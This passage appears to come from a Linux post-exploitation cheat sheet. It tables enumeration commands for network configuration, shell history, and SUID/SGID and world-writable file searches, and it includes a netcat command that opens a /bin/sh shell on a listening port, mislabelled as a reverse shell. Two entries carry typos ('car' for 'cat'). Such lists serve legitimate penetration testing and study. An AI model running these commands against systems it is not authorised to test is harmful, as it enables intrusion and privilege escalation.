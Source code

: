|cat /etc/resolv.conf|The resolver configuration file contains information that is read by the resolver routines the first time they are invoked by a process.  The file is designed to be human readable and contains a list of keywords with values that provide various types of resolver information. If this file does not exist, only the name server on the local machine will be queried; the domain name is determined from the hostname and the domain search path is constructed from the domain name.|
|cat /etc/hosts|**/etc/hosts** is a simple text file that associates IP addresses with hostnames, one line per IP address.|
|cat /etc/network/interfaces|**/etc/network/interfaces** file contains network interface configuration information.|
|cat /etc/sysconfig/network|**/etc/sysconfig/network** file is used to specify information about the desired network configuration on your server.|
|cat /etc/networks|**/etc/networks** is a plain ASCII file that describes known DARPA networks and symbolic names for these networks.|
|cat /proc/net/tcp|Print tcp info in hex mode|
|cat /proc/net/udp|Print udp info in hex mode|
|cat /proc/net/icmp|Print icmp info in hex mode|
|cat /proc/net/route|Print route info in hex mode|
|cat /etc/inetd.conf|inetd, called also the super server, will load a network program based upon a request from the network. The inetd.conf file tells inetd which ports to listen to and what server to start for each port.|
|cat /etc/xinetd.conf|xinetd.conf is the configuration file that determines the services provided by xinetd.|
|ls -R /etc/network/|Show files about network configuration|
|ls -al /etc/init.d|List all init scripts|
|iptables -L -t nat|Print rules of nat chain|
|iptables -L -t mangle|Print rules of mangle chain|
|tcpdump|tcpdump cheat sheet|
|nc -v `host` `port`|Make a tcp connection to host:port|
|nc -v -e /bin/sh -l -p `port`|Reverse a /bin/sh shell to localhost:port|

## File Systems

|**Command**|**Description**|
|:----------|:--------------|
|cat /etc/profile|/etc/profile contains Linux system wide environment and startup programs. It is used by all users with bash, ksh, sh shell.|
|cat /etc/bashrc|/etc/bashrc or /etc/bash.bashrc is the systemwide bash per-interactive-shell startup file. Is is used system wide functions and aliases. |
|cat ~/.bash_profile|similar to /etc/profile, but just for current user|
|car ~/.bash_history|Print current user bash commands history|
|cat ~/.bashrc|~/.bashrc is the individual per-interactive-shell startup file stored in your home directory $HOME.|
|car ~/.zshrc|~/.zshrc is the individual per-interactive-shell startup file stored in your home directory $HOME.|
|cat ~/.bash_logout|The file ~/.bash_logout is not used for an invocation of the shell. It is read and executed when a user exits from an interactive login shell.|
|ls -al /var/log/|List all logs files|
|find / -perm -1000 -type d 2>/dev/null | Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.|
|find / -perm -g=s -type f 2>/dev/null | SGID (chmod 2000) - run as the group, not the user who started it.|
|find / -perm -u=s -type f 2>/dev/null  | SUID (chmod 4000) - run as the owner, not the user who started it.|
|find / -perm -g=s -o -perm -u=s -type f 2>/dev/null | SGID or SUID|
|for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done | Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)|
|find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null|find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)|
|find / -writable -type d 2>/dev/null| world-writeable folders|
|find / -perm -222 -type d 2>/dev/null|world-writeable folders|